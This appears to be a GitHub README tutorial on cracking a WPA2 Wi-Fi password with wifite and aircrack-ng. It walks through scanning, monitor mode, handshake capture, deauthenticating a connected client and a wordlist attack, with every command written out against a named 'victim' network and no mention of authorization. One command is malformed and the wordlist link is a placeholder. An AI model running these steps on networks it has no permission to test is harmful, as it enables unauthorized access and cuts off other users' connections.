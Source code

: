 ***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](#1-using-wifiteeasiest)
2. [Using Aircrack-ng](#2-using-aircrack-ng)




### **1. Using wifite**(easiest)

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**

![wifite](https://github.com/aruncs31s/ethical-hacking/blob/main/video/wifite.gif?raw=true)

### **2. Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid`(MAC address) of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>

![ifconfig](img/ifconfig.png)

*you can see mine is wlan0*

![ip a](./img/ip_a.png)

</details>

![iwlist wlan0](./img/iwlist_info.png)

 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```



*again replace the wlan0 with your wifi interface name*

![](./img/airodum-ng_scan.png?raw=true)

We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***

![](./img/working_dir.png?raw=true)


- after typing the command you can see a similar output like in following

![](./img/airodump_listen.png?raw=true)


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing

![](./img/airodump-station.png?raw=true)

We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```
![](./img/deauth.png?raw=true)


- after running the aireplay-ng we will be able to capture a handshake 

![](./img/handshake.png?raw=true)

![](./img/cap_files.png?raw=true)

![](./img/capfile.png?raw=true)



7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked



![](./img/cracked.png?raw=true)






